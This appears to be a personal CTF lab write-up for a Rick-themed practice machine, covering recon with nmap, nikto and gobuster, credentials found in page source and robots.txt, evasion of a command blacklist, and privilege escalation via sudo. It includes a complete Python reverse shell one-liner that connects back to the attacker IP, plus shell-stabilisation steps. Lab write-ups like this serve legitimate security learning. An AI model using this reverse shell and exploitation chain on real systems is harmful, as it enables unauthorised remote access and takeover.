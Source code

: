 target machine IP address:  10.10.126.11 
kali IP address: 10.10.159.125

# Recon 
`nmap -sV(service) -sC(script) -oN(output) file  10.10.126.11` 
	![](Pasted%20image%2020241112190313.png)

`nikto -h http://10.10.126.11 | tee nikto.log (output)`
	![](Pasted%20image%2020241112190816.png)

`gobuster dir -u http://10.10.126.11 -w /root/Desktop/wordlists/dirb/big.txt -x php,sh,txt,cgi,html,js,css,py | tee gobuster.log(output)`
	![](Pasted%20image%2020241112191526.png)

# Task 1
- page source revereals username: R1ckRul3s
	![](Pasted%20image%2020241112191833.png)

- `robots.txt` reveals: Wubbalubbadubdub
	![](Pasted%20image%2020241112192130.png)

- `login.php` reveals: here we will login with the above discovered info
	![](Pasted%20image%2020241112192340.png)![](Pasted%20image%2020241112192507.png)

- `cat` command is not allowed so we can make use of ``grep` command
	![](Pasted%20image%2020241112194408.png)
	
- using `grep -R .` to display info of all files contained in the dir
	![](Pasted%20image%2020241112194627.png)
	![](Pasted%20image%2020241112194913.png)
- we notice that a lot of commands are blacklisted 
	![](Pasted%20image%2020241113145954.png)
- we can use a reverse shell (pentestmonkey Pyhton rev.shell)
  ![](Pasted%20image%2020241113150553.png)![](Pasted%20image%2020241113150433.png)
  modifying command:
  ```
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.159.125",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
  ![](Pasted%20image%2020241113152445.png)
  - *we will stabilize the shell using below technique:*
	```
	# Step 1: Spawn a TTY shell
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	
	# Step 2: Set environment variables
	export TERM=xterm
		
	# Step 3: Background the shell
	Ctrl + Z
	
	# Step 4: Configure local terminal settings
	stty raw -echo; fg
	```
![](Pasted%20image%2020241113155919.png)

- check directories permissions `ls -ld` 
- cd where we have write priv(`/tmp`) and transfer linepeas via python3 -m http.server {port} and run it 
- checking other users in home directory (rick dir) -> flag2
- checking root permissions --> `sudo -l` ( we see that we have root permissions) -> flag3
